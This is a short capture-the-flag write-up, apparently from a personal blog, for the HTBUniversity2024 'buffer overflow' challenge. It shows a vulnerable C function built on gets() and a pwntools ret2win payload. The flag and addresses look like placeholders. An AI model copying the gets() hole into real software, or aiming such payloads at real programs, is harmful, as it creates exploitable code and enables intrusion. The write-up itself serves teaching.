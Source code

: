 ```yaml
---
title: "buffer overflow"
date: 2025-06-27T10:45:40+02:00
description: "buffer overflow writeup from HTBUniversity2024 CTF - Binary Exploitation challenge"
categories:
    - "CTF Writeups"
    - "Binary Exploitation"
tags:
    - "CTF"
    - "HTBUniversity2024"
    - "Binary Exploitation"
    - "Cybersecurity"
event: "HTBUniversity2024"
challenge: "buffer overflow"
category: "Binary Exploitation"
image: "/images/ctf/htbuniversity2024/buffer-overflow-screenshot.png"
weight: 1
---
```


# buffer overflow

**Event:** HTBUniversity2024 | **Category:** Binary Exploitation

---


# Buffer Overflow

## Challenge Description

A classic buffer overflow challenge. Can you control the execution flow?

## Solution

This challenge involves a simple buffer overflow with a ret2win technique.

### Step 1: Analysis

Running `checksec` on the binary shows:
- No ASLR
- No stack canaries
- NX disabled

### Step 2: Finding the Vulnerability

The `vulnerable_function()` uses `gets()` which doesn't check buffer bounds.

```c
void vulnerable_function() {
    char buffer[64];
    gets(buffer);
}
```

### Step 3: Exploitation

We need to overflow the buffer and redirect execution to the `win()` function.

```python
from pwn import *

# Calculate offset
offset = 72

# Address of win function
win_addr = 0x401234

payload = b'A' * offset + p64(win_addr)
```

### Step 4: Flag

After successful exploitation, the `win()` function prints the flag.

**Flag:** `HTB{f4k3_buff3r_0v3rfl0w_t35t}` 

---

**Navigation:**
- [← Back to HTBUniversity2024 Overview](/ctf/htbuniversity2024/)
- [View All CTF Writeups](/ctf/)

